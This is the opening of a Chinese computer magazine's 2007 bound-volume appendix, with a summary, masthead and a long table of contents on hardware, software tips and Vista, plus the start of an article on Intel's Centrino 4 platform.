# 电脑爱好者2007合订本（下）附录分册

# 内容提要
《电脑爱好者》合订本2007年（下半年）附录分册与正文分册相配套，作为合订本正文分册的补充和完善。

2007年下半年的《电脑爱好者》合订本附录分册主要分成四个部分。第一部分是“2007年热点技术与产品”，通过编辑的眼光，介绍了2007年最新最酷的产品和技术，包括2007年的一些超级热点应用。“2007年热点技术与应用”，介绍了数十个2007年的热点技术应用方案，涉及到硬件、系统、软件、网络、数码产品等诸多方面。“应用方案特辑”则关注电脑操作技巧、关注最实际的问题，介绍了众多的电脑操作技术技巧和具体实现方案。第四部分是“专题图书”，以大篇幅的专题介绍了5个技术应用方向，内容详实，实例丰富，不亚于一本相关图书的介绍。

总之，2007年下半年的《电脑爱好者》合订本附录分册，选材广泛、内容丰富、信息含量巨大，是对《电脑爱好者》杂志本身内容有益的补充，也是一本实用的电脑技术手册。

# 《电脑爱好者合订本》2007年（下）·附录分册
- 主管单位：中国科学院
- 主办单位：北京《电脑爱好者》杂志社
- 编辑出版：《电脑爱好者》杂志编辑部
- 顾问：郭传杰
- 社长：陈梅
- 总编辑：高翔
- 出版部：聂静(主任)
- 主编：封立鹏
- 副主编：潘留军
- 责任编辑：董宏
- 制作：格格
- 发行部：刘丽华(总经理) 顾建林(副总经理)
- 客户服务部：姚雯(总监) 李隆(副总监) 米彬(副总监)
- 商务市场部：柳超(副总监)
- 网络部：滕大鹏(副主任) 王华侨(技术总监)
- 法律顾问：北京周涛律师事务所 (E-mail:lawyer@cfan.com.cn)
- 办公/通信地址：北京市海淀区万寿路翠微中里14号楼4层，北京123信箱（《电脑爱好者》合订本）
- 发行：北京《电脑爱好者》杂志社发行部
- 邮购咨询：(010)68258784, E-mail: yougou@cfan.com.cn
- 网址：http://www.cfan.com.cn
- 经销：各地报刊亭及新华书店
- 开本：787×1092 1/16
- 印张：24.5
- 字数：100万字
- 刊号：ISSN 1005-0043/CN11-3248/TP
- 国内邮发代号：82-528

本书如有印刷或装订质量问题，我们负责调换。E-mail: publish@cfan.com.cn
图文版权所有，未经同意不得转载、翻印
全套合订本（正文分册、附录分册、配套DVD(或2CD)）定价：39.8元

# 目录
### 2007年热点技术与产品
- 9 2007年新技术大扫描
  - 一、核心技术大革新
    - 1.核心技术革新之——迅驰4发布
    - 2.核心技术革新之——45nm Penryn时代来临
    - 3.核心技术革新之——Intel发布3系列芯片组
    - 4.核心技术革新之——AMD发布四核
  - 二、主板领域新突破
    - 1.主板突破之——NVIDIA原厂主板
  - 三、硬盘存储大变身
    - 1.硬盘变身之——1TB硬盘
  - 四、内存也逍遥
    - 1.显示新招数之——DDR3内存旋风横空出世
  - 五、操作系统另辟蹊径
    - 1.操作系统新技术之——Windows Vista
  - 六、液晶出新招
    - 1.显示新招数之——液晶插“黑”
  - 七、电源也时尚
    - 1.电源新规范之——ATX12V 2.3版电源
  - 八、音箱新面孔
    - 1.音箱新面孔之——“电子管”之风
    - 2.音箱新面孔之——独立功放音箱
  - 九、为环保做贡献
    - 1.为环保做贡献之——中国版RoHS实施
- 13 用P2P TV Recorder录制网络电视节目
- 14 2007年技术点评与年度产品——笔记本
  - 一、Vista催化剂: 笔记本性能全面升级
    - 1. 内存引来1GB双通道时代
    - 2. GPU标准全面提升
    - 3. 周边配置补差补漏
  - 二、呼唤轻薄时代: 13.3英寸映入眼帘
  - 三、架起笔记本与PDA的桥梁: UMPC闪亮登场
  - 四、工艺美学设计: 个性化大战愈演愈烈
    - 1. 彩壳本本映入眼帘
    - 2. 材质革命
- 16 傻博士问答: Windows XP修复安装
- 17 2007年技术点评与年度产品——整机与数码
  - 台式电脑
  - 数码相机
  - 数码摄像机
  - 办公打印设备
  - MP3、MP4移动数码
- 21 QQ“涂鸦板” 聊天更精彩
- 22 2007年技术点评与年度产品——外设部分
  - LCD显示器
    - 一、越精彩: LCD面板尺寸之变
    - 二、游戏液晶与高清液晶
  - 键盘
    - 1.远离游戏杀手: 拒绝键位冲突
    - 2.无线键盘技术进步
    - 3.手感舒适的键盘更受欢迎
  - 鼠标
    - 一、宽屏LCD带来的新问题: 分辨率至关重要
    - 二、“甩心大法”必杀技: 像素处理能力不可忽视
  - 音箱
    - 1.2.0声道品位天籁之音
    - 2.木制音箱渐成主流
  - 摄像头
    - 1.帧数率革命
    - 2.PC摄像头像素大战
    - 3.无驱动摄像头蔚然成风
  - 打印机
    - 1.彩色激光打印浮出水面
    - 2.高品质移动商务办公: 便携与速度两全其美
    - 3.照片输出品质: 袖珍型打印机不甘示弱
  - 移动硬盘
    - 1.移动视频播放硬盘盒
    - 2.视频输出功能
    - 3.数码伴侣功能
    - 4.网络硬盘共享盒
- 29 风向标: 2007热门软件技术及应用
  - 一、系统软件篇: Vista与Linux
    - 1. Windows Vista: 在争议中前行
    - 2. Linux: 在发展中壮大
  - 二、网络软件篇: 开启一个崭新的网络时代
    - 1. 体贴入微的聊天软件
    - 2. 安全方便的浏览器软件
    - 3. 高速稳定的网络下载软件
    - 4. 搜索新天地: Google Earth和电子地图“小ME”
    - 5. “密不透风”的个人防火墙
  - 三、应用软件篇: 竞争与垄断并行的时代
    - 1. 办公双雄: WPS Office 2007和MS Office 2007
    - 2. 多媒体软件的CS3系列风暴
    - 3. 编程开发软件: VS.net和JAVA
- 39 软海拾贝: 2007免费精品软件推荐
  - 一、全能秘书: 免费办公一条龙服务
    - 1. 文字处理: 挑战微软的“老兵”和“新秀”
    - 2. 快速输入: 搜狗输入法与Clipboard Recorder
    - 3. 图像图标: FastStone和Microangelo系列
    - 4. 文件管理: Total Commander和7-ZIP
  - 二、娱乐伴侣: 步入音频和视频的美妙世界
    - 1. 音乐伴侣: 千千静听和Winamp
    - 2. 音频编辑: LAME和Audacity
    - 3. 视频播放: 暴风影音V2.9
    - 4. 搜索下载: Kugoo 2007和VaGaa哇嘎
  - 三、超级搭档: 免费系统软件巧组合
    - 1. 系统增强: 全能优化与System Repair Engineer
    - 2. 系统检测: Everest与Cpu-Z
    - 3. 冲浪助手: 傲游、Google加速及插件管理
    - 4. 反恶意软件: 360安全卫士和Spybot
    - 5. 精品安全软件: avast!与ZoneAlarm
- 45 无线你的无线——迅驰笔记本专题
  - 一、追溯应用本源
    - 1.需求之一：超轻薄设计
    - 2.需求之二：电池续航时间
    - 3.需求之三：综合性能表现
    - 4.迅驰潜在对手之一：挑战安全性极限的威盛C7-M
    - 5.彻底忽视性能的恶果：全美达酿成的悲剧
    - 6.被迅驰压制的AMD移动处理器
  - 二、历代迅驰平台对比
    - 1. CPU对比
    - 2. 芯片组对比
    - 3. 无线网络对比
  - 三、迅驰4平台深入分析
    - 1.酷睿2强劲动力：迅驰4精神领袖
    - 2.迅驰4平台全面升级
    - 3.磁盘技术：各大厂商各显神通
  - 四、迅驰平台的竞争对手
    - 1.挑战安全性极限的威盛C7-M
    - 2.全美达
    - 3. AMD彪马次世代移动平台浮出水面
- 52 有了ReadyBoost, 小内存照跑Vista!
  - 1.ReadyBoost的工作原理
  - 2.可以使用ReadyBoost的闪存设备
  - 3.ReadyBoost的使用方法
  - 4.使用ReadyBoost的注意事项
- 53 家庭无线局域网应用全面指南
  - 一、无线局域网概述及特点
  - 二、家用无线网络设备选购
    - 1.无线网卡选购要点
    - 2.无线AP/路由器选购
    - 3.无线局域网与“迅驰”技术
  - 三、家庭及SOHO无线局域网络组建实例
    - 1.无线网卡的安装设置
    - 2.无线路由器的安装设置
    - 3.家庭及SOHO无线组网方案
    - 4.手持设备的WIFI应用简介
  - 四、无线局域网的安全性
    - 1.无线上网安全存在隐患
    - 2.更改无线路由器默认设置
    - 3.正确设置无线网络密钥(WEP)
    - 4.更改默认的SSID设置
    - 5.创建“MAC访问控制表”
    - 6.做好其他防范工作
    - 7.改进无线网安全协议
  - 五、无线局域网常见故障维护
    - 1.提高无线网络的可靠性和稳定性
    - 2.从指示灯来判断无线网络常见故障
- 59 毫发毕现并不难——高清视频应用专题
  - 一、HTPC与HDTV：解析应用需求
    - 1. 高清视频标准：何谓HDTV
    - 2. HTPC和普通PC的区别
  - 二、组建HTPC容易忽视的环节
    - 1.忽视音频系统
    - 2.忽视静音表现
    - 3.忽视存储系统
    - 4.忽视操控性
  - 三、关注视频系统：显卡选择是关键
    - 1. 应用好显卡的高清功能
    - 2. 整合主板是否适合HTPC？
  - 四、视频回放质量：关注色彩表现的奥秘
    - 1. 为什么不同显卡的色彩表现会有差异
    - 2. Overlay和VMR
  - 五、HTPC配置推荐
    - 1.整合主板配置
    - 2.均衡性配置
    - 3.巧妙的HTPC配置
  - 六、高清世界的宠儿：HDMI接口
    - 1. HDMI接口的优势
    - 2. 没有HDMI的产品适合高清时代吗
  - 七、投入高清世界：无处不在的高清
    - 1. 轻松易得的高清：高清液晶电视
    - 2. 自娱自乐的高清：HDV与高清投影仪
    - 3. 全家人的高清：高清影院
  - 八、软件设置：70%的技巧在这里
- 65 傻博士问答：无法安装新字体
- 65 文件扩展名轻松改
- 66 视野无极限——超级显示系统全攻略
  - 一、廉价的高清：高画质大屏幕CRT显示器
    - 1. 色彩无可挑剔：LCD最佳替补
    - 2. 大屏幕珑管选购真经：如何辨别显像管
    - 3. 关键的珑管镀膜
  - 二、贵族的选择：透视超大屏幕LCD显示器
    - 1. 最佳平衡点：27英寸宽屏前途最为看好
    - 2. 大尺寸液晶面板分析
  - 三、双倍视野：组建双显示器系统
  - 四、超大屏幕震撼：家用投影仪
    - 1. 家庭用户也能试验投影仪
    - 2. 家用投影仪的三大要点
    - 3. 投影屏幕不容忽视
- 71 UMPC选购指南与应用技巧
  - 一、UMPC概述
  - 二、UMPC的选购要点
  - 三、UMPC代表产品简介
  - 四、UMPC应用方案
  - 五、UMPC升级维护
- 76 愉悦纵情，尽在Wii时代
  - 一、什么是Wii
  - 二、Wii游戏主机的标配
  - 三、Wii频道简介
  - 四、10款超酷Wii周边配件赏析
  - 五、让Wii在无线中Wi-Fi起来
  - 六、Wii经典游戏——马里奥足球
  - 七、你的Wii“砖”了吗
- 80 字体设置与使用技巧
- 81 优化组合：大容量数据存储系统与方案
  - 一、初接触：大容量数据存储基础知识
    - 1. 大容量数据存储技术与产品
    - 2. 灵活组合：设计个性化的存储需求
  - 二、优化组合：常见的大容量数据存储应用及典型方案
    - 1. 个性存储：普通用户的存储应用
    - 2. 高效便携：游戏玩家的存储应用
    - 3. 轻松娱乐：数字家庭的存储应用
    - 4. 共享备份：SOHO办公存储应用
  - 三、专业应用：中小企业大容量数据存储系统
    - 1. DAS(直接外挂存储)方案
    - 2. NAS(网络附加存储)方案
    - 3. SAN (存储域网络)方案
- 86 更新换代——2007年老电脑升级要点
  - 一、升级侧重点分析：根据应用决定策略
  - 二、AGP显卡的理性升级
  - 三、疯狂股市疯狂电脑：献给老爸老妈的礼物
  - 四、2007年典型升级案例分析
  - 五、笔记本电脑升级要点
- 91 活用EXCEL函数 精确计算年龄
- 92 独门秘技：2007笔记本维护完全指南
  - 一、未雨绸缪篇：笔记本电脑的预防性维护
  - 二、各个击破篇：笔记本配件维护及典型故障
  - 三、实用至上篇：笔记本电脑整机及系统维护
- 99 攻防之间：2007国内外网络安全技术精彩剖析
  - 一、2007网络攻击技术趋势及特点剖析
  - 二、流行动向：网络攻击技术及案例分析
  - 三、步步为营：实用网络安全防范技术及应用分析
- 106 傻博士问答：光驱在Windows 98中丢失
- 107 2007热点病毒及防范完全接触
  - 一、2007年热点病毒与安全趋势分析
  - 二、2007流行病毒及专杀工具大扫描
  - 三、典型案例：寻找局域网中ARP病毒
- 113 巧用“风行”轻松实现异地下载
- 114 2007年恶意软件清理工具完全测试
  - 一、2007年恶意软件的发展状况
  - 二、国内篇：主流恶意软件清理工具及使用
  - 三、国外篇：主流恶意软件清理工具及使用
- 121 2007年PC测试软件扫描
  - 一、测试前的准备工作：BIOS设置与操作系统优化
  - 二、实战测试软件
  - 三、多媒体设备测试
- 131 风起云涌：2007中文输入法软件完全接触
  - 一、输入法软件的选用标准
  - 二、英雄辈出：2007年拼音输入法工具盘点
  - 三、雄风犹在：五笔和其他输入法
  - 四、活学妙用：常用输入法使用技巧
- 138 股市淘金：热门股票软件实战大比拼
  - 一、初入股市：“网络炒股”初接触
  - 二、完全进阶：实用股票分析软件全扫描
  - 三、如虎添翼：股票管理辅助管理软件
- 143 消灭病毒 我有三招
- 144 2007精彩课件制作技术大搜捕
  - 一、潮流趋势篇：国内外课件制作技术的新动向
  - 二、精彩组合篇：课件制作技术方案分析
  - 三、提高篇：精彩课件制作实例流程分析
- 149 字体设置与使用技巧
- 150 冲浪新感觉：2007浏览器完全点评
  - 一、浏览器测试的基本参数
  - 二、浏览器综合性能与测试分析
- 155 2007年免费邮箱功能与新技术完全接触
  - 一、免费邮箱的性能评价指标
  - 二、2007国内免费邮箱综合评价与分析
  - 三、2007国外中文免费邮箱综合评价与分析

### 应用方案专题
- 163 安全至上——商用台式PC信息安全导购
  - 一、安全无处不在
  - 二、“可信计算”时代：PC厂商牵手安全芯片
  - 三、身份识别技术：安全PC的第一道防线
  - 四、关于存储安全：硬盘加密与数据安全技术
  - 五、扎紧篱笆：双网隔离防止网络泄密
  - 六、按需制定：不同用户的选择
  - 七、安全PC推荐
  - 八、安全PC选购误区
- 168 工程师教你如何识别板卡做工与用料
  - 一、超频源动力：供电单元的重要性
  - 二、深入了解电容：抛开唯电容论
  - 三、固态电容有什么好处
  - 四、供电单元与布线设计
  - 五、主板缩水通常表现在哪些地方
  - 六、主板缩水各种把戏揭露
  - 七、应用型附加功能：不为人关注的小芯片
  - 八、决定画质的因素：显卡做工
- 174 性价比对决——二手笔记本与低价位本本全面碰撞
  - 一、走出品牌价值的误区：国产品牌Vs国际品牌
  - 二、低价位的无奈：独立显卡的取舍
  - 三、撇开技术指标：如何真正评判稳定性
  - 四、深入本本LCD表现
  - 五、产品推荐
- 177 计算机静音、散热方法全攻略
  - 一、静音、散热的基本知识
  - 二、PC的散热方式
    - 1. 风冷散热
    - 2. 热管散热
    - 3. 水冷散热
  - 三、静音及散热的改造方案
    - 1. 风扇调速器的使用
    - 2. 热管的使用
    - 3. 机箱风道科学设置
  - 四、日常绿化工作
    - 1. CPU的清理
    - 2. 显卡的清理
    - 3. 主板的清理
- 180 网络硬件技术及操作管理完全接触
  - 一、基础篇：常见的网络硬件及2007年新趋势
    - 1. 网络运行的基础——网卡
    - 2. 信号的加油站——中继器和集线器
    - 3. 信号的马路——网络传输介质
    - 4. 网络上的关卡——各种网络互连设备
    - 5. 网络安全的保镖——防火墙
  - 二、提高篇：巧借管理网络硬件设备
    - 1. 巧用OpManager进行网络设备管理
    - 2. 网络性能和速度测试方法
    - 3. 登峰造极：网络管理升级与方案选择
- 188 数码相机、摄像机另类使用技巧
  - 1.用数码相机作图片展示
  - 2.让数码相机成为“MP4”
  - 3.数码相机做电脑摄像头
  - 4.巧用数码相机输入文字
  - 5.用数码相机“扫描”底片
  - 6.用DC、DV作移动存储器
  - 7.用数码相机实现复印和传真
  - 8.强大的数码红外“夜视仪”
  - 9.数码摄像机与电视“联姻”
  - 10.让相机、摄像机干好“副业”
  - 11.用数码相机进行GPS定位
  - 12.有趣体验 用数码相机玩游戏
  - 13.其他另类用途：照明、监控等
- 191 字体设置与使用技巧
- 191 傻博士问答：显示蓝天白云图的时间太长
- 192 手机绝非只用来打电话：非智能手机高级功能应用技巧
  - 一、普通手机各有不同：非智能手机平台简介
    - 1.诺基亚S40平台
    - 2.联发科MTK平台
    - 3.其他手机平台
    - 4.非智能手机未来发展
  - 二、让普通手机智能起来：JAVA扩展应用
    - 1.JAVA应用概述
    - 2.JAVA的安装方法
    - 3.常用JAVA软件推荐
  - 三、随身LOMO的乐趣：摄影摄像应用技巧
    - 1. 手机拍照的相关知识
    - 2.手机拍照的一般技巧
    - 3.手机摄像头的高级用途
  - 四、影音娱乐中心：音视频播放技巧
    - 1.音频格式转化
    - 2.视频文件转化
    - 3.视频文件分割
  - 五、能省则省：把你的手机作电脑外设
    - 1.蓝牙遥控器
    - 2.无线MODEM
    - 3.摄像头、录音笔
  - 六、其他高级应用：工程模式  补丁刷机
    - 1.NOKIA 8210工程模式应用
    - 2.西门子6688刷机、打补丁实例
- 197 字体鉴赏之奥运字体纪念版
- 197 傻博士问答：系统的快速启动工具栏消失
- 198 小灵通也能玩出大花样：小灵通选购及应用指南
  - 一、小灵通概述
    - 1.发展历史
    - 2.技术特点
    - 3.发展前景
  - 二、小灵通选购指南
    - 1.选购要点
    - 2.经典小灵通介绍
  - 三、小灵通应用技巧
    - 1.上网功能详解
    - 2.用好小灵通的增值业务
    - 3.烧号升级
    - 4.其他应用
- 206 Windows Vista中的“秘密”武器
  - 一、截图工具
    - 1.截图工具的使用
    - 2.截图工具的设置
  - 二、Tablet PC
    - 1.Tablet PC概述
    - 2.输入面板
    - 3.Windows日记本
    - 4.粘滞便笺
  - 三、命令提示符
    - 1.以管理员身份进入命令提示符环境
    - 2.Tab键在命令行环境下的妙用
    - 3.启用超级管理员账户
    - 4.新增加的命令行工具
    - 5.强大的RoboCopy命令
  - 四、轻松传送
  - 五、卷影副本
    - 1.什么是卷影副本
    - 2.创建卷影副本
    - 3.恢复以前的版本
  - 六、磁盘管理
    - 1.创建新分区
    - 2.合并分区
- 211 傻博士问答：系统提示“VXD或386文件无效”错误
- 211 傻博士问答：Killmsblast病毒的清除
- 212 搞定Windows Vista的两大难题：梦幻桌面和天气预报
  - 一、梦幻桌面动起来
  - 二、中文版本下天气预报正常化
- 215 手动给Vista系统减肥
  - 1.取消休眠
  - 2.关闭“系统还原”
  - 3.转移或删除虚拟内存文件
  - 4.删除多余文件
  - 5.清理IE垃圾文件
  - 二、使用“Vista优化大师”瘦身
- 219 Vista关机轻松搞定
  - 一、更改“开始”菜单的电源按钮
  - 二、在桌面上建立关机快捷方式
  - 三、使用快捷键快速关机
- 219 傻博士问答：CNSMINKP.VXD文件丢失
- 220 Vista文件操作缓慢之终极解决方案
  - 一、安装KB931770补丁
  - 二、安装KB938979补丁
  - 三、关闭“远程差分压缩”
  - 四、禁用索引服务
  - 五、关闭资源管理器的预览功能
  - 六、使用第三方拷贝软件
- 221 Vista下玩转批量重命名
  - 一、“赤手空拳”实现批量重命名
  - 二、用ACDSee实现图像文件批量重命名
  - 三、用“批量更名专家”实现批量重命名
- 222 字体鉴赏之汉仪萝卜体简
- 222 傻博士问答：Windows错误代码
- 223 调整Vista安全策略，让UAC更好用
  - 一、彻底关闭UAC
  - 二、改变UAC的提示方式，让它更安静
  - 三、改变UAC的显示方式，让它更友善
- 223 傻博士问答：卸载DirectX 9.0c
- 224 打造操作系统的“预备役部队”
  - 一、为新兵上堂理论课
  - 二、时刻对你的数据进行备份
  - 三、轻松恢复你的文件备份
  - 四、走个备份的小捷径
- 226 操作系统要“排毒养颜”——六款实用系统优化软件推荐
  - 一、优化精灵——Ashampoo WinOptimizer
  - 二、忠诚助手——Windows清理助手 2.3.4.7.0907(891)
  - 三、清洁专家——电脑垃圾清理专家专业版 7.15
  - 四、卸王之王——DirectX随意卸 3.96
  - 五、大师登场——系统优化大师 2007 build 10.10
  - 六、无敌管家——超级兔子魔法设置 8.1
- 232 版权所有 满盘文件带LOGO
  - 一、获取LOGO的途径
  - 二、满盘文件带LOGO
- 234 傻博士问答：WindowsXP用户管理失败
- 235 一键恢复其实很简单——五款一键恢复软件使用手册
  - 一、影子系统(Power Shadow)2008
  - 二、一键还原精灵Vista版6.0
  - 三、雨过天晴电脑保护系统专业版 1.0
  - 四、三茗一键恢复 5.4
  - 五、DOS之家一键GHOST 11.0Build 070707
- 239 傻博士问答：卸载Windows Vista的正确方法
- 239 傻博士问答：关闭系统时计算机无响应
- 240 照片管家揭密照片玩法——六款实用图片处理软件推荐
  - 一、功能丰富——光影魔术手 nEO iMAGING 0.24 简体中文版
  - 二、相册之王——电子相册王Photofamily 3.0多国语言版
  - 三、绝对实用——易事通标准证件照片处理工具 2.0## 245 好PP要让大家看:数码照片分享技巧
- 一、与所有人分享:把相册放到网上去
- 二、亲朋好友分享:制作视频电子相册
- 三、传统分享方式:数码照片打印冲印

#### 250 DAEMON Tools 使用小教程
- 一、DAEMON Tools 4.10的安装方法
- 二、DAEMON Tools 的使用方法

#### 251 自力更新玩转TC最新版本
- 一、下载和安装
- 二、TC的鲜明特色
- 三、熟悉TC的双窗口界面
- 四、常规操作入门
- 五、常规设置
- 六、玩转TC的各式插件
- 七、玩转TC的批处理重命名
- 八、玩转TC的一些技巧

## 258 过年了,我要回家——列车查询软件及网站使用推荐
- 第一篇 经典列车查询软件推荐
- 一、盛名时刻表
- 二、石开旅行时刻表
- 三、全国列车查询系统
- 四、车次航班一查通
- 第二篇 经典列车查询网站介绍
- 一、火车票网
- 二、火车网
- 三、中华铁路网

## 263 傻博士问答:删除隐藏属性文件夹

#### 264 RealPlayer 10.6 2007常用技巧大放送
- 一、技巧系列之No.1——RealPlayer快速启动
- 二、技巧系列之No.2——RealPlayer历史记录清除
- 三、技巧系列之No.3——图片也能放幻灯
- 四、技巧系列之No.4——广告不再弹出来
- 五、技巧系列之No.5——自动捕获在线视听文件下载链接
- 六、技巧系列之No.6——老机器如何更好地使用RealPlayer
- 七、技巧系列之No.7——歌词新体验
- 八、技巧系列之No.8——显示有绝招

#### 268 字体鉴赏之方正静蕾字体

#### 268 字体鉴赏之迷你简竹子体

#### 269 MP4转换大行家
- 一、MP4/RM全能视频转换专家2007豪华版2.0
- 二、MP4视频转换通 4.9
- 三、MP4/RM转换专家白金版9.65 Build 4650

## 272 重扬南泥湾精神,个性台历DIY
- 一、让你有明星范儿的台历——ACD FotoSlate 4.0
- 二、简易台历的典范——Calendar Builder 3.46
- 三、还是农历更亲切——iSee个人图片专家 3.223
- 四、电子台历也精彩——迷你电子台历2.13

#### 276 小技巧、大智慧——帮你一搜到底
- 一、关键字显神通
- 二、贴身小秘书
- 三、精搜就是准
- 四、网页也"隐身"
- 五、冲破搜索的禁锢
- 六、定制人性化搜索
- 七、搜索绝活
- 八、发掘适合你的特殊引擎

#### 283 网站建设不求人——七款网站建设软件评比
- 一、动易CMS
- 二、织梦网站CMS
- 三、帝国网站CMS
- 四、风讯网站CMS
- 五、PHPCMS
- 六、SupeSite/X-Space
- 七、KingCMS

## 286 独乐乐不如众乐乐,今天你共享了吗?
- 穿墙总有术——局域网文件共享
- 无线也有线——无线共享
- 你有我就有——打印机共享

#### 288 准确、快捷——网络资源巧下载
- 一、HTTP和FTP——常规下载
- 二、BT下载
- 三、MMS/RTSP资源——影音资源巧下载
- 四、ED2K——"电骡"也能驮资源
- 五、PPG资源下载
- 六、MXIE资源下载
- 七、FLV资源下载
- 八、PDL资源下载
- 九、PTF资源下载

#### 291 博客加新闻 天下事尽知
- 1.获得代码
- 2.代码"回家"

#### 292 “QQ小秘书”——访问Q-Zone空间的高级助理
- 一、简易的安装与运行
- 二、快速的日志撰写
- 三、简易的日志管理
- 四、轻松浏览日志
- 五、随意发表留言
- 六、“小秘书”的“特殊服务”
- 七、互踩功能,让你的人气一路飙升

#### 293 打造EXCEL版抽奖系统
- 1.创建抽奖器
- 2.奖项设置
- 3.开始抽奖
- 4.查看结果

#### 294 聊天新体验——QQ助手大集合
- 一、音乐中感受语音聊天——vEmotion for VoIP 5.6.0.58
- 二、MM装点门面必备之——拍拍看 2.5
- 三、懒人有懒招——QQ语音聊天王 2007
- 四、共享浪漫——QQ皮肤 情人节礼物
- 五、不用摄像头也能视频——VCam 虚拟摄像头 3.1.0
- 六、就是省力气——QQ自动聊天机器人 1.6.071009 主题版

#### 299 让黑中介靠边站——求职利器大搜罗
- 一、求职网络篇
- 二、求职软件篇

#### 302 随身携带的移动互联——手机上网
- 一、手机上网接入方式
- 二、手机上网设置
- 三、手机上网应用
- 四、手机上网展望

#### 307 我这样看电视——网络电视软件PPStream实用技巧
- 一、突破网络封锁
- 二、实现“画中画”效果
- 三、关闭屏保和休眠,放心看节目
- 四、全屏播放更方便
- 五、让PPStream进驻Maxthon浏览器
- 六、让PPStream进驻Vista侧边栏
- 七、找回PPStream的播放列表
- 八、在PPStream里实现定时播放
- 九、PPStream也玩老板键
- 十、通过左右声道选择,解决双语问题
- 十一、使用收藏夹，查找常用频道更方便
- 十二、画面随心调，打造精彩影效

#### 309 傻博士问答：Windows XP关机与启动速度缓慢

#### 310 论坛强人必杀技
- 一、吸引眼球，从主题入手
- 二、制作特色头像，打造论坛名人
- 三、论坛签名也要有个性
- 四、个性回帖，让我与众不同
- 五、迅速转帖，做好论坛搬运工
- 六、马甲切换，自己顶自己
- 七、论坛挂ID，泡的就是时间
- 八、多功能密码保管器，密码一个都不会忘

#### 314 邮件客户端也能收取Windows Live Hotmail邮件
- 一、原生支持：Windows Live Mail
- 二、官方插件：Outlook Connector
- 三、第三方插件：FreePOPs

#### 316 谷歌数字地球应用全面指南
- 一、数字地球简介
  - 1.GoogleEarth概述
  - 2.微软虚拟地球简介
- 二、谷歌地球一般使用技巧
  - 1.在浏览器中使用谷歌地球
  - 2.安装GoogleEarth软件
  - 3.用好GE的图层功能
  - 4.GoogleEarth中地标的使用
- 三、谷歌地球高级使用技巧
  - 1.卫星地图的开发应用
  - 2.手持设备与数字地球
  - 3.把照片定位到谷歌地球
  - 4.谷歌地球的其他应用技巧

#### 321 循序渐进：Linux精品软件操作实用宝典
- 一、基础平台篇：轻松安装Linux系统平台
- 二、常用软件篇：Linux下的日常应用操作
- 三、提高篇：Linux下的服务器软件操作
- 四、进阶篇：Linux下的安全软件操作

#### 331 与Office 2007亲密接触实例讲解
- 序
- 实例讲解之一：利用Word邮件合并来批量制作邀请函
  - 一、批量制作邀请函前的准备工作
  - 二、进行邮件合并，批量制作邀请函
- 实例讲解之二：利用Word制作漂亮图表
  - 一、选择图表类型以及编辑源数据
  - 二、修饰图表，让图表更多姿多彩
- 实例讲解之三：利用Word设计专业封面
  - 一、插入封面
  - 二、编辑封面内容
  - 三、添加其他封面控件以及设置恰当的文档页眉页脚
- 实例讲解之四：利用Excel数据透视表多角度分析数据
  - 一、利用源数据表创建数据透视表
  - 二、通过建数据透视表多角度分析数据
  - 三、制作通俗易懂的交互数据透视图
- 实例讲解之五：利用Excel快速分析网络数据
  - 一、创建Web 查询，将网页数据导入Excel
  - 二、依需而定，对Web查询进行个性设置
- 实例讲解之六：利用PPT制作精美的电子相册
  - 一、启用相册工具，快速创建电子相册
  - 二、对相册进行编辑修饰
- 实例讲解之七：轻轻松松将文件转换为PDF电子文档
- 实例讲解之八：挖掘Office打印技巧，实现高效打印
  - 一、打印文件草稿，当然使用Word草稿打印模式
  - 二、能减则减，妙用Word减少一页功能
  - 三、妙用页面设置，Excel打印也缩印
  - 四、让打印工作表条理更清晰，实现每页都有标题
- 实例讲解之九：妙用格式，让Excel表格清晰又亮丽
  - 一、应用数据条，不同大小数据显示不同颜色
  - 二、依靠条件格式，数据筛选也智能
  - 三、应用公式，不同行显示不同色
- 实例讲解之十：利用Excel实现高效协同办公
  - 一、设置共享工作簿
  - 二、通过共享工作簿，实现协同办公
- 实例讲解之十一：精心构思，设计一份精致的工作流程图
  - 一、规划好业务流程是设计流程图的前提
  - 二、利用Visio，设计流程图
  - 三、修饰流程图
- 实例讲解之十二：另辟蹊径，利用Excel制作员工卡
  - 一、设计员工卡模板以及插入图片控件
  - 二、定义源信息表引用区域名称
  - 三、制作员工卡
- 实例讲解之十三：利用规划求解，合理安排生产计划
  - 一、进行规划求解的前提，输入已制生产条件
  - 二、确定预计耗用总量以及利润目标
  - 三、在Excel 2007中启用规划求解工具
  - 四、应用规划求解，快速计算最佳生产计划方案
- 实例讲解之十四：编制精确甘特图，准确控制任务进展
  - 一、创建工作表，输入项目进程情况
  - 二、利用图表工具，制作甘特图
  - 三、修饰甘特图，让其更美观

#### 343 用Dreamweaver CS3制作AJAX网页全攻略
- 一、AJAX和Spry简介
- 二、使用Spry构件
- 三、使用Spry显示XML数据
- 四、应用Spry效果

#### 353 微软全新网页设计工具Expression Web快速入门
- 一、概述
- 二、建立网站
- 三、编辑网页
- 四、建立超链接
- 五、图像处理
- 六、表格和布局表格
- 七、框架
- 八、样式表和层
- 九、动态网页效果
- 十、表单
- 十一、动态Web模板和母版页
- 十二、ASP.NET网页开发
- 十三、数据访问
- 十四、站点发布和管理

#### 368 “刻不容缓”——DVD刻录高手之路
- 一、DVD刻录基础知识
- 二、刻录前的系统优化和注意事项
- 三、用Windows XP自带工具刻录光盘
- 四、功能更强大的Vista刻录工具
- 五、专业刻录软件Nero
- 六、用CloneCD备份加密光盘
- 七、制作自动运行光盘
- 八、升级刻录机Firmware
- 九、DVD刻录常见问题与解答

#### 386 隐藏文件 想看就看
- 1.问题分析及解决
- 2.预防“显示所有隐藏文件”选项被修改

### 2007年新技术大扫描
文 / TMG zcy

引言：转眼间，2007年的脚步渐行渐远，回首这一年来IT领域的变革的确不少。新产品层出不穷的背后更是技术领域的重大革新。本文就是将2007年的诸多醒目的技术创新做一个全盘的大扫描，让大家更好地回顾IT技术领域在这一年的发展记录。

#### 一、核心技术大革新

#### 1.核心技术革新之——迅驰4发布
- 推荐指数：★★★★☆
- 技术评定：★★★★★

我们都知道，迅驰平台为笔记本设备插上了无线的翅膀，四年过去了，迅驰平台已经发展到了第四代。

大家俗称的“迅驰4代”的代号为Santa Rosa，是在2007年5月9日发布的，距Napa上一代迅驰平台发布仅时隔一年零四个月。Santa Rosa这一名称源于美国加利福尼亚州，是一个不知名的小镇的名字。用它作为迅驰4平台的代号，其用意大概是因为该小镇的独特魅力与该第四代平台的设计理念类似。

